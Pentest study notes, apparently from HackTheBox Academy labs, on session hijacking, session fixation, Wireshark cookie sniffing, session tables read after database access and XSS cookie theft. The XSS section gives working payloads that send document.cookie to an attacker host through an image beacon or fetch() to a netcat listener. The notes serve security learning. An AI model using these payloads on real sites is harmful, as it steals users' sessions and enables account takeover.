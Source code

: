 # 📉 Session Attacks 1

## Session Hijacking

Here the attacker takes advantage of insecure session identifiers, finds a way to obtain them, and uses them to authenticate to the server and impersonate the victim

Let's imagine the following account of some target.

<figure><img src="../../../.gitbook/assets/image (1361).png" alt=""><figcaption></figcaption></figure>

We can see cookie named `auth-session`

As an attacker we somehow got access to the cookie's value, we can go in a new private window, navigate to the website and replace the current auth-session cookie's value with the one we got. Normally if we reload the page, we will be logged in as the target

## Session Fixation

Session Fixation occurs when an attacker can fixate a (valid) session identifier.

Here are the 3 stages of a Session Fixation attacks:

**Stage 1: Attacker manages to obtain a valid session identifier**

**Stage 2: Attacker manages to fixate a valid session identifier**

**Stage 3: Attacker tricks the victim into establishing a session using the abovementioned session identifier**

Let's got through the 3 steps more in depth:

**Part 1: Session fixation identification**

We will have some random URL with some token value

```
http://oredirect.htb.net/?redirect_uri=/complete.html&token=<RANDOM TOKEN VALUE>
```

<figure><img src="../../../.gitbook/assets/image (1362).png" alt=""><figcaption></figcaption></figure>

So we see the cookie is the same as the token value

**Part 2: Session fixation exploitation attempt**

Let's open a new private windows and add our own token value, we will end up navigating to ->

```
http://oredirect.htb.net/?redirect_uri=/complete.html&token=IControlThisCookie
```

&#x20;

<figure><img src="../../../.gitbook/assets/image (1363).png" alt=""><figcaption><p>same value once again</p></figcaption></figure>

We could send a URL similar to the above to a victim. If the victim logs into the application, we could easily hijack their session since the session identifier is already known (we fixated it).

Another way of looking for some fixation problems, let's say we got a cookie named `PHPSESSID, we could try http://insecure.exampleapp.com/login?PHPSESSID=AttackerSpecifiedCookieValue` and see if the specified cookie value is propagated to the application

## Obtaining Session Identifiers without User Interaction

We can obtain obtain session identifiers two main ways:

* without user interaction
* requiring user interaction

### via Traffic Sniffing

Traffic sniffing requires the attacker and the victim to be on the same local network. Then and only then can HTTP traffic be inspected by the attacker. It is impossible for an attacker to perform traffic sniffing remotely.

Let's go on our target website:

<figure><img src="../../../.gitbook/assets/image (1364).png" alt=""><figcaption><p>note <code>auth-session,</code> probably as a session identifier</p></figcaption></figure>

Now, we'll start wireshark on the local network:

```shell-session
sudo -E wireshark
```

Right-click "tun0" and then click "Start capture"

Now in a rivate window, we login to the app using knwon credentials with an account we created and look at the traffic:

<figure><img src="../../../.gitbook/assets/image (1365).png" alt=""><figcaption></figcaption></figure>

We don't forget the http filter, then we will need to filter everything out for any `auth-session` cookies with `Edit` -> `Find Packet`

<figure><img src="../../../.gitbook/assets/image (1366).png" alt=""><figcaption></figcaption></figure>

and when we find the packet we need we can copy the value like this:

<figure><img src="../../../.gitbook/assets/image (1367).png" alt=""><figcaption></figcaption></figure>

**Part 4: Hijack the victim's session**

and now if we go back to the not private window and change our current cookie value with the one we obtained through wireshark (remember to remove the `auth-session=` part)&#x20;

<figure><img src="../../../.gitbook/assets/image (1368).png" alt=""><figcaption></figcaption></figure>

And if we refresh we are now loggid in as the victim

### Post-Exploitation (Database Access)

When we have access to a database via, for example, SQL injection or identified credentials, we should always check for any stored user sessions.

<figure><img src="../../../.gitbook/assets/image (1369).png" alt=""><figcaption></figcaption></figure>

We can try to crack the hashes, but we also see the interesting session table ->

```sql
select * from all_sessions;
select * from all_sessions where id=3;
```

<figure><img src="../../../.gitbook/assets/image (1370).png" alt=""><figcaption><p>We could now authenticate as the user "Developer."</p></figcaption></figure>

## Cross-Site Scripting (XSS)

For a Cross-Site Scripting (XSS) attack to result in session cookie leakage, the following requirements must be fulfilled:

* Session cookies should be carried in all HTTP requests
* Session cookies should be accessible by JavaScript code (the HTTPOnly attribute should be missing)

First let's create an account to look at functionalities ->

To craft our payload, it's good to use handlers like `onload` or `onerror` since they fire up automatically, if they're blocked, we can  use something like `onmouseover`.

```javascript
"><img src=x onerror=prompt(document.domain)>
```

`document.domain` to ensure that JavaScript is being executed on the actual domain and not in a sandboxed environment.

and in the remaining fields, we can put the following:

```javascript
"><img src=x onerror=confirm(1)>
```

```javascript
"><img src=x onerror=alert(1)>
```

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

When we save we gor nothing poping on our screen, that's because we need to call the code with another functionality ->&#x20;

When we click on share:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we need to check if _HTTPOnly_ is off

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

To steal a cookie in real world we can use [XSSHunter](https://xsshunter.com), [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator) or webhook.site

The payload would look somehing like:

```javascript
<h1 onmouseover='document.write(`<img src="https://CUSTOMLINK?cookie=${btoa(document.cookie)}">`)'>test</h1>
```

{% content-ref url="../../../red-team/technical-knowledge/web-application/xss-injection.md" %}
[xss-injection.md](../../../red-team/technical-knowledge/web-application/xss-injection.md)
{% endcontent-ref %}

Now let's say the victim clicks on our link, in our webhook or anything else, we should see our cookie pop and can use it to hijack session

### cookies via XSS (Netcat edition)

First we place the below payload in the _Country_ field of Ela Stienen's profile and click "Save."

```javascript
<h1 onmouseover='document.write(`<img src="http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}">`)'>test</h1>
```

Then we launch netcat on port 8000

now we simulate what the victim would do and navigate to `http://xss.htb.net/profile?email=ela.stienen@example.com` since we control this public profile hosting a cookie-stealing payload

<figure><img src="../../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can use `fetch()`, which can fetch data (cookies) and send it to our server without any redirects.

```javascript
<script>fetch(`http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}`)</script>
```

##

